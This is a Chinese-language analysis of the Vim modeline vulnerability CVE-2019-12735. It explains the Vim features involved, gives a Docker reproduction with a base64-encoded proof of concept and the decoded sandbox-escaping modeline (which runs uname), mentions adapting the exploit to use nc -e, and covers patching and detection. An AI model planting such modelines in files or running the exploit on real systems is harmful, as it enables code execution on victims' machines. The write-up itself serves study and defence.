









# Vim漏洞分析附件(cve-2019-12735)

### 背景知识

#### Vim的模式

[参考：http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro](http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro)  

**Normal mode**

通过 $ vim file 打开文件后进入的模式

```shell
$ vim hello.txt
Hello
~                                                                     
~                                                                      
~                                                                      ...
~                                                                               
"hello.txt" 1L, 6C

```

通过source!加载的脚本的内容，就是相当于在这个模式下输入的内容

**Command-line mode**

- 在normal mode下输入`: ( and / ? )`进入Command-line mode

- 在Vim的Command-line模式下，可以执行Vim commands
- 其中，通过 `:!{shell cmd}` 可以执行shell命令

```shell
# http://vimdoc.sourceforge.net/htmldoc/various.html#:!
$ vim
:!uname -a

Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Press ENTER or type command to continue

```

**Ex mode**

- 通过`$ vim -e  file `进入该模式

- 也可以在Normal mode下输入Q进入该模式
- 这个模式的特点是可以连续执行Vim command，可以类比 python 的命令行模式
- 通过source加载的脚本的内容，就是相当于在这个模式下输入的内容

**Insert mode**

- 在Normal mode下输入i可以进入Insert mode, 这个模式相当于编辑模式，大部分操作和在记事本中一样。

- 另外还有 "I", "a", "A", "o", "O", "c", "C", "s" or S"也可以从Normal mode进入Insert mode.

- 具体模式转换见: [http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro](http://vimdoc.sourceforge.net/htmldoc/intro.html#vim-modes-intro)

- 其中"S"表示剪切当前行，并进入Insert mode

```shell
# :help S
# ["x]S                   Delete [count] lines [into register x] and start
#                        	insert.  Synonym for "cc" |linewise|.

# Demo演示
$ vim 1.vim
:let i = 1
:while i < 10
:    let a = getline(i)
:    if empty(a)
:        break
:    endif
:    echo "Line:" i "is"  a
:    let i += 1
:endwhile
~                                                                      
...     
~                                                                               
"1.vim" 9L, 147C

S(shift+s)


:while i < 10
:    let a = getline(i)
:    if empty(a)
:        break
:    endif
:    echo "Line:" i "is"  a
:    let i += 1
:endwhile
~                                                                      ...
~
                                                               
-- INSERT --
<ESC>
p  (p是粘贴)
p


:let i = 1
:let i = 1
:while i < 10
:    let a = getline(i)
:    if empty(a)
:        break
:    endif
:    echo "Line:" i "is"  a
:    let i += 1
:endwhile
~                                                                      ...
     

```


#### Vim options的概念

Vim的options相当于编辑器的配置，通过command-line模式的:set命令手动配置，也可以通过脚本自动配置，自动配置的方法主要是通过Vim脚本(.vimrc, .exrc)或者modeline方式。


#### Vim的modeline功能

- 参考1: [http://vimdoc.sourceforge.net/htmldoc/options.html#modeline](http://vimdoc.sourceforge.net/htmldoc/options.html#modeline)

- 参考2: [https://vim.fandom.com/wiki/Modeline_magic](http://vimdoc.sourceforge.net/htmldoc/options.html#modeline)

modeline用于在文本文件的首部或者尾部设置vim options, 让vim打开文件的时候自动加载并执行该配置

```shell

# modeline 有两种格式
# 第一种格式： [text]{white}{vi:|vim:|ex:}[white]{options}
#							vi:noai:sw=3 ts=6 
# - text可以用来放置编程语言的注释(python的 # , C 的// )，是可选的
# - vi:之前一定要有空格
# - options用":"或者空格分隔


# 第二种格式：	
#  [text]{white}{vi:|vim:|ex:}[white]se[t] {options}:[text]
# 				/* vim: set ai tw=75: */ 
# - 首尾都可以用text主要是支持(C的这种注释 "/**/")，首尾的text都是可选的
# - vim: 后面要有空格
# - 要有一个set(可以缩写成 se，后面跟空格)
# - options用空格分隔
# - 结尾要有冒号 : 

```


开启modeline

```shell
# 编辑~/.vimrc
# 添加：
set modeline
set modelines=5
	
```

具体使用

```shell
# 用Vim打开文本：
$ vim a.py
# python3
# coding=utf-8
import platform

def func1():
        for i in range(10):
                print("hello vim")
                print(platform.platform())
# cursor is here 

def main():
        func1()

main()


# 打开a.py后, 默认的tab长度是8个空格，不支持回车自动缩进
# 可以通过tabstop和autoindent两个选项来配置
:set tabstop=4
:set autoindent


# 效果如下：
# python3
# coding=utf-8
import platform

def func1():
    for i in range(10):
        print("hello vim")
        print(platform.platform())
        # cursor is here

def main():
    func1()

main()


# 但是下次打开后，又需要再配置一次
# 可以通过modeline来使这个配置每次打开a.py文件时都生效
# 在文件开头添加一行内容： # vim: set tabstop=4 autoindent: 
# 再次打开效果如下：

$ vim a.py
# vim: set tabstop=4 autoindent: 
# python3
# coding=utf-8
import platform


def func1():
    for i in range(10):
        print("hello vim")
        print(platform.platform())
        # cursor is here

def main():
    func1()

main()


```

`
For security reasons, only a subset of options is permitted in modelines, and if the option value contains an expression, it is executed in a sandbox
`  
为了安全原因，只有部分options可以在modeline中配置，如果option的值是一个表达式(比如配置foldexpr)，那么表达式会在vim的sandbox中执行
  


#### Vim表达式和脚本

根据Vim Script语法编写Vim脚本，参考：

[https://github.com/name5566/vim-config/blob/master/vim_script.md](https://github.com/name5566/vim-config/blob/master/vim_script.md)
[http://vimdoc.sourceforge.net/htmldoc/usr_41.html](http://vimdoc.sourceforge.net/htmldoc/usr_41.html)
[http://vimdoc.sourceforge.net/htmldoc/eval.html](http://vimdoc.sourceforge.net/htmldoc/eval.html)
[http://vimdoc.sourceforge.net/htmldoc/eval.html#functions](http://vimdoc.sourceforge.net/htmldoc/eval.html)


```shell
# 创建一个Vim脚本1.vim
$ vim 1.vim


# 按照Vim Script语法编辑脚本
:let i = 1
:while i < 10
:    let a = getline(i)
:    if empty(a) 
:        break
:    endif
:    echo "Line:" i "is"  a
:    let i += 1
:endwhile


# 保存
:w


# 用source指令加载自己并执行
:source % 
# or
:source 1.vim


# 执行结果：
Line: 1 is :let i = 1
Line: 2 is :while i < 10
Line: 3 is :    let a = getline(i)
Line: 4 is :    if empty(a)
Line: 5 is :        break
Line: 6 is :    endif
Line: 7 is :    echo "Line:" i "is"  a
Line: 8 is :    let i += 1
Line: 9 is :endwhile
Press ENTER or type command to continue


# 在编辑其他文件的时候加载并执行一个Vim脚本
$ vim a.txt
Hello
Vim
Goodbye!
~         
:source 1.vim


Line: 1 is Hello
Line: 2 is Vim
Line: 3 is Goodbye!
Press ENTER or type command to continue


```


#### source命令

source命令用于从Vim脚本文件中读取Vim指令并执行，参考：[http://vimdoc.sourceforge.net/htmldoc/repeat.html#using-scripts](http://vimdoc.sourceforge.net/htmldoc/repeat.html#using-scripts)

```shell
:help source

:so[urce] {file}        
  Read Ex commands from {file}.  
  These are commands that start with a ":".


:so[urce]! {file}       
  Read Vim commands from {file}.  
  These are commands that are executed from Normal mode, 
  like you type them.
                     

```

source和source!的区别在于：

- source是从文件读取 Ex commands, 也就是说文件的内容必须是 :cmd 的形式
- source!是从文件读取 Normal mode下执行的vim commands, 也就是说文件中的```<ESC> i /``` 字符这些都会当成Normal mode下的用户输入(like you type them)

```shell
# 创建一个vim脚本，写入内容iHello,World后保存
$ vim 5.vim
iHello,World

:wq

# 用source! 加载并执行脚本
$ vim 
:source! 5.vim

# 效果如下，打开后直接进入了Insert mode
Hello,World

~                                                                      
~                                                                      
...                                                                    
~                                                                       
~                                                                                                        
-- INSERT --


# 而用source加载则会报错
$ vim 
:source 5.vim


Error detected while processing 5.vim:
line    1:
E492: Not an editor command: iHello,World
Press ENTER or type command to continue


```


#### vim执行shell命令

通过在command-line mode下，使用 !{cmd}来执行shell命令

```shell
$ vim
:!uname -a

Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Press ENTER or type command to continue


```


```shell
# 一个可以执行shell命令的vim脚本
$ vim a.vim
<i>
:!uname -a
~
~
<ESC>
:source %

... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64

Press ENTER or type command to continue

# 特殊的函数execute
# $ vim
# :help execute()
#  execute({command} [, {silent}])                                 *execute()*
#                 Execute an Ex command or commands and return the output as a
#                 string. 
#                 {command} can be a string or a List.  In case of a List the
#                 lines are executed one by one. 
# ...
                        
#                 The optional {silent} argument can have these values:
#                         ""              no `:silent` used
#                         "silent"        `:silent` used
#                         "silent!"       `:silent!` used
# 								The default is "silent".  
# 								Note that with "silent!", unlike `:redir`, error messages are dropped
# ...


$ vim b.vim
: call execute("source a.vim", "")


... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64


Press ENTER or type command to continue


# execute函数在ubuntu上安装的Vim中没有，但是还有另一个可以执行shell命令：assert_fails()
# $ vim
# :help assert_fails
# 
# assert_fails({cmd} [, {error}])                                 *assert_fails()*
#                 Run {cmd} and add an error message to |v:errors| if it does
#                 NOT produce an error.
#                 When {error} is given it must match in |v:errmsg|.
$ vim b.vim
: call assert_fails("source a.vim")


... Darwin Kernel Version 18.2.0: Thu Dec 20 20:46:53 PST 2018; root:xnu-4903.241.1~1/RELEASE_X86_64 x86_64


Press ENTER or type command to continue


```


#### silent命令

```shell
# :help silent
#                              *:sil* *:silent* *:silent!*
# :sil[ent][!] {command}  
#    Execute {command} silently.  
#    Normal messages will not
#    be given or added to the message history.
#    When [!] is added, error messages will also be
#    skipped, and commands and mappings will not be aborted
#    when an error is detected.


# 1. 编写一个文件，不使用silent，保存后会在底部出现回显信息
vim 1.txt
i
something 
~                                                                      ...     
~       
<ESC>
:w                                                                   
"a.vim" 1L, 11C written

# 2. 使用silent，w命令的回显信息就消失了
vim 1.txt
i
somenthing
~                                                                       ...   
~                                                                               
:silent! w

# 3. silent! 可以用来去除错误信息
vim 1.txt
i
something
<ESC>
:w
:file | silent! Anycommand or anytext'\' \; "

something
~                                                                      ...
~                                                                                                                                           
"1.vim" line 1 of 1 --100%-- col 9


```


#### redraw命令

```shell
# :help redraw!
#                                             *:redr*  *:redraw*
# :redr[aw][!]            
#  Redraw the screen right now.  
#  When ! is included it is cleared first.
#                         ... 
# 立刻刷新屏幕，如果设置了!则先清除屏幕内容
# 每条命了执行完，底部会留下历史记录， redraw!会清除掉记录

# 屏幕会清空
vim 1.txt
i
somenthing
~                                                                       ...   
~                                                                               
:silent! w
:redraw!

something
~                                                                       ...
~                                                                            

```


#### file命令

```shell
# 输入当前文件信息
vim 1.txt
i
something
<ESC>
:w
:file
something
~                                                                      ...
~                                                                                                                                           
"1.vim" line 1 of 1 --100%-- col 9


```


#### system函数

```shell
system({expr} [, {input}])                              *system()* *E677*
Get the output of the shell command {expr} as a string.  
... 

$ vim
:let a = system('pwd')
:echo a

~                                                                      
/home/invincible/Desktop/test/vim_test

Press ENTER or type command to continue


```


#### assert_fails函数

执行一个vim command, 如果没有出错，则将command的执行信息保存到v:errors全局变量中

```shell
:help assert_fails

assert_fails({cmd} [, {error}])                                
  Run {cmd} and add an error message to |v:errors| 
  if it does NOT produce an error.
  When {error} is given it must match in |v:errmsg|.

```


```shell
$ vim
:call assert_fails("echo 'hello'")

~
...
~
hello

:echo v:errors
['command did not fail: echo ''hello''']

```


编写一个可以执行shell命令的vim脚本

```shell

$ vim a.vim
<i>
:!uname -a
~
~
<ESC>
:wq

# 用assert_faild执行vim的source指令，加载vim脚本a.vim
$ vim
:call assert_fails("source a.vim")

Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Press ENTER or type command to continue

:echo v:errormsg
['command did not fail: source a.vim']

```


#### Vim的folding功能

- vim的folding功能用于对文本中的文本块（比如一个函数，一段注释）折叠和展开，可以类比为图形化编辑器编辑区侧栏的(+/-)。

- foldmethod选项是用来配置Vim的代码折叠功能的，Vim给出了manual, indent, expr, syntax, diff, marker这几种代码折叠的方式，下面👇是indent方式的效果：

```shell
# 文本如下
$ vim a.py

# python3
# coding=utf-8
import platform

def func1():
        for i in range(10):
                print("hello vim")
                print(platform.platform())

def main():
        func1()

main()


# 1. 设置foldmethod选项
:set foldenable
:set foldmethod=indent

# 效果如下
# python3
# coding=utf-8
import platform

def func1():
+--  3 lines: for i in range(10):-------------------------------------

def main():
        func1()

main()


```

  

  如果不满足于给定的几种方式，可以将foldmethod设置为expr来自定义代码块的特征

```shell
# 文本如下
$ vim a.py

# python3
# coding=utf-8
import platform

def func1():
        for i in range(10):
                print("hello vim")
                print(platform.platform())

def main():
        func1()


main()

:set foldenable
:set foldmethod=expr
:set foldexpr=getline(v:lnum)[0]==\"#\"
# foldexpr用于设置文本满足的条件，满足条件的文本块会被折叠
# 该配置的意思是通过Vim的getline函数，判断每一行文本的第一个字符是否为"#"，将满足条件的相邻的行视为一个文本块，并将其折叠
# 效果如下: 

+--  2 lines: # python3-----------------------------------------------
import platform

def func1():
        for i in range(10):
                print("hello vim")
                print(platform.platform())
                
def main():
        func1()
        
main()


```

  

#### vim的sandbox概念

```shell
11. The sandbox					*eval-sandbox* *sandbox* *E48*


The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
'foldtext' options may be evaluated in a sandbox. 


This gives some safety for when these options are set from a modeline.  


These items are not allowed in the sandbox:
	- changing the buffer text
	- defining or changing mapping, autocommands, functions, user commands
	- setting certain options (see |option-summary|)
	- setting certain v: variables (see |v:var|)  *E794*
	- executing a shell command
	- reading or writing a file
	- jumping to another buffer or editing a file
	- executing Python, Perl, etc. commands
	

```


#### ANSI escape codes

参考：

[https://www.gnu.org/software/screen/manual/html_node/Control-Sequences.html](https://www.gnu.org/software/screen/manual/html_node/Control-Sequences.html)  
[https://notes.burke.libbey.me/ansi-escape-codes/](https://notes.burke.libbey.me/ansi-escape-codes/)  
[https://learnku.com/articles/26231](https://learnku.com/articles/26231)  

##### \x1b[1G 

\x1b[1G 光标移动到当前行的第Pn个位置

```shell
# ESC [ Pn G                      Cursor horizontal position
# $ echo -e "Hello\x1b[1GA" > a.txt
# $ cat a.txt
# Aello
# $ echo -e "Hello\x1b[2GA" > a.txt
# $ cat a.txt
# HAllo
# $ echo -e "Hello\x1b[3GA" > a.txt
# $ cat a.txt
# HeAlo

```


##### \x1b[D 

\x1b[D 光标左移1个位置

```shell
# ESC [ Pn D                      Cursor Left
# 光标左移Pn个位置
# $ echo -e "Hello\x1b[D" > a.txt
# $ cat a.txt
# Hello
# $ echo -e "Hello\x1b[D\x1b[D\x1b[DAAA" > a.txt
# $ cat a.txt
# HeAAA
# $ echo -e "Hello\x1b[5DAAA" > a.txt
# $ cat a.txt
# AAAlo

```


##### \x1b[K 

\x1b[K 清除光标到当前位置的内容

```shell
# *  ESC [ K           erase to end of line (inclusive)
# 清除光标到当前位置的内容(不会改变文本)，可以配合\x1b[G使用
$ echo -e "AAAA\x1b[1G\x1b[KBBBB" > a.txt
$ cat  a.txt
BBBB
$ echo -e "ABCD\x1b[2G\x1b[KEEEE" > a.txt
$ cat  a.txt
AEEEE
$ echo -e "ABCD\x1b[3G\x1b[KEEEE" > a.txt
$ cat a.txt 
ABEEEE
$ echo -e "ABCD\x1b[KEEEE" > a.txt
$ cat a.txt 
ABCDEEEE

```


##### \x1b[2K 

      


##### \x1b[?7l 

- ESC [ ? 7 l       auto wrap off  
- \x1b[?7l 关闭自动换行 (l -> low)

- \x1b[?7h 开启自动换行 (h -> high)
- 这个命令的功能是控制Terminal的显示功能，默认情况下，如果文本长度超过Terminal的显示长度，则会自动换行，如果关闭了自动换行，则会全部显示在一行，超出的部分被"截断"

​      


\x1b[?7l 和 \x1b[1G 配合使用的效果：

使用前 ：     
               

使用后：

      


\x1b[?7l 和 \x1b[1G + \x1b[K 配合使用的效果：        
      


##### \x16

参考:

[http://defindit.com/ascii.html](http://defindit.com/ascii.html)  
[https://zh.wikipedia.org/wiki/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6](https://zh.wikipedia.org/wiki/%E6%8E%A7%E5%88%B6%E5%AD%97%E7%AC%A6)  

这是一个ascii码的控制字符，代表 ctrl+v，它的功能可以理解为：让下一个输入识别为普通字符

```shell
$ cat a.py
a = input("> ")
print(ord(a[0]))

$ python3 a.py
# 想直接输入ctrl+c, 但程序退出，被识别成了中断信号
> ^CTraceback (most recent call last):
  File "a.py", line 1, in <module>
    a = input("> ")
KeyboardInterrupt

$ python3 a.py
# 依次按下ctrl+v和ctrl+c, 就顺利打印出了ctrl+c的ascii码
> ^C
3

```


为什么Exp中需要\x16控制字符

```shell
echo -e "iHello\x1b[D" > a.vim
$ vim 
:source! a.vim

Hello
~                                                                      ...   
~                                                                               
E388: Couldn't find definition

这个报错可以手动输入下面的指令产生：
$ vim
i
Hello
<ESC>
[
shift+d

# 如果加上\x16则\x1b不会被解析成<ESC>按键，而是输入字符
echo -e "iHello\x16\x1b[D" > a.vim

Hello^[[D
~                                                                      ...
~
  
-- INSERT --


```


### exp修改说明

-  nc -> nc.traditional 

  Ubuntu上的nc不包含-e选项，解决办法是安装nc.traditional来替代nc命令

- \x1b[K -> \x1b[2K 和 \x1b[D -> \x1b[2D 和空格是用于清除不可见字符\x16和引号

  修改前: 

  

         

  

  修改后:        
                 

         


### Vim安装

#### apt自动安装

```shell
apt-get install vim-runtime=2:7.4.1689-3ubuntu1
apt-get install vim-common=2:7.4.1689-3ubuntu1
apt-get install vim=2:7.4.1689-3ubuntu1

```


#### 使用deb包安装

链接:[https://pan.baidu.com/s/1rn0RqwWn0tpgk9PY0v00Jw](https://pan.baidu.com/s/1rn0RqwWn0tpgk9PY0v00Jw) 密码:m0qc

```shell
sudo dpkg -i vim_2%3a7.4.1689-3ubuntu1_amd64.deb
```


#### 下载源码手动编译

```shell
# 下载源码，编译生成符号
# 参考：https://www.unix.com/programming/156665-compile-debug-vim-source-code.html
$ mkdir ~/MyVim
$ cd ~/MyVim
$ sudo apt-get install libncurses5-dev libncursesw5-dev
$ apt-get source vim=2:7.4.1689-3ubuntu1
$ cd src
$ cp Makefile Makefile.orig
$ vim Makefile
$ diff Makefile Makefile.orig
540c540
< CFLAGS = -g
---
> #CFLAGS = -g
908c908
< prefix = ~/MyVim
---
> #prefix = $(HOME)
1852c1852
< #    $(STRIP) $(DEST_BIN)/$(VIMTARGET)
---
>     $(STRIP) $(DEST_BIN)/$(VIMTARGET)
$ cd ..
$ make && make install
$ cd bin
$ gdb ./vim

```


#### Docker复现环境搭建

可以通过Docker快速搭建poc复现环境

```shell
$ ls
Dockerfile
$ cat Dockerfile
From ubuntu:16.04
RUN set -e -x ;\
    apt update ;\
    apt-get install -y vim-runtime=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim-common=2:7.4.1689-3ubuntu1 ;\
    apt-get install -y vim=2:7.4.1689-3ubuntu1 ;\
    echo "OiF1bmFtZSAtYXx8IiB2aTpmZW46ZmRtPWV4cHI6ZmRlPWFzc2VydF9mYWlscygic291cmNlXCFcIFwlIik6ZmRsPTA6ZmR0PSIK" | base64 --decode > /root/poc.txt 

$ sudo docker build -t vim-cve-2019-12735 .
$ sudo docker run -it vim-cve-2019-12735 /bin/bash
echo -e "set modeline\nset modelines=5" > ~/.vimrc 
cd root
vim poc.txt


```


### 漏洞防护

#### package版本检查

- 查看可安装的Vim版本

```shell
# 查看可安装的Vim版本
$ apt-cache policy vim
vim:
  Installed: (none)
  Candidate: 2:7.4.1689-3ubuntu1.4
  Version table:
     2:7.4.1689-3ubuntu1.4 500
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-updates/main amd64 Packages
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial-security/main amd64 Packages
     2:7.4.1689-3ubuntu1 500
        500 https://mirrors.tuna.tsinghua.edu.cn/ubuntu xenial/main amd64 Packages

# 从Vim包的changelog中获取修复漏洞的版本号 2:7.4.1689-3ubuntu1.3
$ cat vim_changelog.txt |grep CVE-2019-12735 -C 10
...
vim (2:7.4.1689-3ubuntu1.3) xenial-security; urgency=medium

  * SECURITY UPDATE: Arbitrary code execution
    - debian/patches/CVE-2019-12735.patch: disallow
      sourcing a file in the sandbox in src/getchar.c
    - CVE-2019-12735
  * SECURITY UPDATE: Buffer overflow
    - debian/patches/CVE-2017-5953.patch: check for an
      invalid length in order to avoid a overflow in
      src/spell.c.
    - CVE-2017-5953


 -- Leonidas S. Barbosa <leo.barbosa@canonical.com>  Fri, 07 Jun 2019 12:35:43 -0300


```


- 安装存在漏洞的版本

```shell

$ sudo apt install vim-common=2:7.4.1689-3ubuntu1
$ sudo apt install vim-runtime=2:7.4.1689-3ubuntu1
$ sudo apt install vim=2:7.4.1689-3ubuntu1

# 通过apt-cache 查看已安装的版本 < 2:7.4.1689-3ubuntu1.3
$ apt-cache policy vim:
  Installed: 2:7.4.1689-3ubuntu1
  Candidate: 2:7.4.1689-3ubuntu1.4
  ...

# 配置vimrc开启modeline功能
vim ~/.vimrc
i
set modeline
set modelines=5
<ESC>
:w

# 测试效果
$ vim poc.txt

Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


Press ENTER or type command to cont

```

- 安装最新版本的vim

```shell
# 安装最新版本的vim
$ sudo apt install vim

# 通过apt-cache 查看已安装的版本 > 2:7.4.1689-3ubuntu1.3
$ apt-cache policy vim
vim:
  Installed: 2:7.4.1689-3ubuntu1.4
  Candidate: 2:7.4.1689-3ubuntu1.4
  ...
 
# 配置vimrc开启modeline功能
vim ~/.vimrc
i
set modeline
set modelines=5
<ESC>


# 测试效果，未触发漏洞
$ vim poc.txt
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
~                                                                      ...                                                                    
~                                                                               
"poc.txt" 1L, 75C  

```


#### 配置检查

```shell
# 检查modeline配置:
$ vim
:verbose set modeline? 
:verbose set modelines?
# 如果显示nomodeline, nomodelines表示没有配置

# 如果配置了，则会显示：

...
～                                                                 
  modeline
        Last set from ~/.vimrc
Press ENTER or type command to continue

...
～
  modelines=5
        Last set from ~/.vimrc
Press ENTER or type command to continue

# 关闭modeline配置
vim ~/.vimrc
删除
set modeline
set modelines=5
添加
set nomodeline
:wq

# 再次检查
$ vim
:verbose set modeline? 

~                                                                     
nomodeline
        Last set from ~/.vimrc
Press ENTER or type command to continue


```

#### poc验证

**读取stdout**

代码执行vim打开poc读取stdout根据输出判断(目前的来看，获取vim的输出貌似有些麻烦)

不存在漏洞时重定向stdout: 

```shell
$ vim poc.txt >out.txt
Vim: Warning: Output is not to a terminal
$ cat out.txt 
# 内容为空 

```


存在漏洞时重定向stdout: 

```shell
$ vim poc.txt > out.txt
Vim: Warning: Output is not to a terminal

Press ENTER or type command to continue

$ cat out.txt 
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux


```


**检查调用栈**

类似的，通过代码执行vim打开poc，ptrace调用栈，检查是否有do_shell调用无漏洞时正常打开poc文件后的调用栈：

```shell
gdb-peda$ bt
#0  0x00007fca6f40b5b3 in __select_nocancel ()
#1  0x000000000052a69c in RealWaitForChar (fd=0x0, 
#2  0x000000000052a444 in WaitForCharOrMouse 
#3  0x000000000052a393 in WaitForChar (msec=0xffffffffffffffff)
#4  0x0000000000526147 in mch_inchar (buf=0x86c66a <typebuf_init+42> 
#5  0x00000000005c381e in ui_inchar (buf=0x86c66a <typebuf_init+42> 
